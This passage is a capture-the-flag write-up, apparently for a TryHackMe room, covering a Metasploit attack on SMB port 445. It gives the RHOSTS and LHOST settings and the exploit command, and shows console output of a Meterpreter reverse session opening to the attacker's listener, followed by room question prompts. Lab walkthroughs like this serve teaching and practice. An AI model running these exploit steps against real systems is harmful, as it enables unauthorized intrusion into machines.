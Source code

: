```

   Id  Name
   --  ----
   0   Automatic Target


```

we found that RHOSTS reqiured << yes >>
now we will make RHOSTS to our thm machine ip. 
:::warning
make sure that LHOST is set to your tun0 ip.
:::

### set RHOSTS:

```
 set RHOSTS 10.10.53.191    # MACHINE ip
 set LHOST  10.0.55.78      # YOUR device ip
```
* and now we ready to do exploit.

### exploit:

```
exploit
```
``or``
```
run
```
---

```
[*] Meterpreter session 1 opened (10.8.47.102:4444 -> 10.10.32.90:49197) at 2025-03-11 01:04:33 -0400
[+] 10.10.32.90:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.32.90:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.32.90:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

```


:::info
**Gain Access Questions answers:** :heavy_check_mark:
::: 
>[color=#0fa0e0]
>>*Start Metasploit*
>>[color=red]

``
answer:
``

```
no answer needed
```
>[color=#0fa0e0]
>>Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
>>[color=red]
